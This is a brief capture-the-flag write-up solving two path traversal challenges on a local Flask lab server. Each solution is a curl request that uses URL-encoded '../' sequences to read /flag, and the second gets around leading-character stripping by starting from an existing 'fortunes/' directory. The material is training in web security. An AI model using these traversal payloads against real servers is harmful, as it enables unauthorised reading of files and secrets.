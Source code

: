 # Path Traversal

## Path Traversal 1

```shell
cat /challenge/server
```

The server is a Flask app that, on receiving requests at `/package/<path>`, serves the file at `/challenge/files/path`
We know that the flag is at `/flag`

Start the server and use curl:

```shell
curl -v http://challenge.localhost:80/package/..%2F..%2Fflag
```

"..%2F" is URL-encoding of "../"

## Path Traversal 2

```shell
cat /challenge/server
```

The server is a Flask app that, on receiving requests at `/data/<path>`, serves the file at `/challenge/files/path`
We know that the flag is at `/flag`
This time the server strips any leading and trailing "." or "/", so can't use the previous solution.

```shell
ls /challenge/files
```

The challenge files contain a directory `fortunes/`. We can use this as the start of the path string.
Start the server and use curl:

```shell
curl -v http://challenge.localhost:80/data/fortunes/..%2F..%2F..%2Fflag
```

"..%2F" is URL-encoding of "../"
